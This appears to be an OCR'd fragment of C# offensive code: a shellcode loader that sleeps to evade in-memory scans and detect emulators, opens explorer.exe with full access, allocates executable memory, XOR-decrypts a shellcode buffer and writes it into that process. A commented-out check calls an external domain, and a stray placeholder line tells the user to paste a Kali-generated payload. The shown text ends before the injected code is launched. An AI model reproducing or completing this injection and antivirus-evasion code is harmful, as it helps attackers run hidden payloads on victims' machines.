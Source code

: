 ```csharp

            //if (Environment.MachineName != "EC2AMAZ-CRPLELS")
            //{
            //    return;
            //}

            //try
            //{
            //    HttpWebRequest req = (HttpWebRequest)WebRequest.Create("http://bossjdjiwn.com/");
            //    HttpWebResponse res = (HttpWebResponse)req.GetResponse();
            //
            //   if (res.StatusCode == HttpStatusCode.OK)
            //   {
            //        return;
            //    }
            //}
            //catch (WebException we)
            //{
            //    Console.WriteLine("\r\nWebException Raised. The following error occured : {0}", we.Status);
            //}

            // Sleep to evade in-memory scan + check if the emulator did not fast-forward through the sleep instruction
            var rand = new Random();
            uint dream = (uint)rand.Next(10000, 20000);
            double delta = dream / 1000 - 0.5;
            DateTime before = DateTime.Now;
            Sleep(dream);
            if (DateTime.Now.Subtract(before).TotalSeconds < delta)
            {
                Console.WriteLine("Joker, get the rifle out. We're being fucked.");
                return;
            }

            Process[] pList = Process.GetProcessesByName("explorer");
            if (pList.Length == 0)
            {
                // Console.WriteLine("[-] No such process!");
                System.Environment.Exit(1);
            }
            int processId = pList[0].Id;
            // 0x001F0FFF = PROCESS_ALL_ACCESS
            IntPtr hProcess = OpenProcess(0x001F0FFF, false, processId);
            IntPtr addr = VirtualAllocEx(hProcess, IntPtr.Zero, 0x1000, 0x3000, 0x40);




            By zebbern SHELLCODE PAYLOAD HERE CHOOSE FROM ABOVE THIS TEXT PUT IT IN KALI PASTE THE SCRIPT




            // XOR-decrypt the shellcode
            for (int i = 0; i < buf.Length; i++)
            {
                buf[i] = (byte)(buf[i] ^ (byte)'j');
            }

            IntPtr outSize;
            WriteProcessMemory(hProcess, addr, buf, buf.Length, out outSize);
```